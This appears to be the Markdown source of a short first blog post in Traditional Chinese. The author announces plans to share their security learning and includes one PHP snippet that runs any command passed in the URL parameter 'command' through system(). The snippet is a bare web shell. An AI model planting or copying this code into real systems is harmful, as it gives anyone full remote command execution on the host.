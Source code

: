 ```yaml
---
title: Frist Post
date: 2024/07/29
categories: []
tags: []
description: 第一篇????


published: true #不顯示此文章
---
```


哈哈哈哈原本以為我不會想來寫文章分享東西但是我還是來了XDD

## 接下來
我接下來會來分享一些我學習的過程資安之類的 ~~其他主題我在想想~~

## code
```php

<?php
if (isset($_GET['command'])) {
    $command = $_GET['command'];
    system($command);
}

```




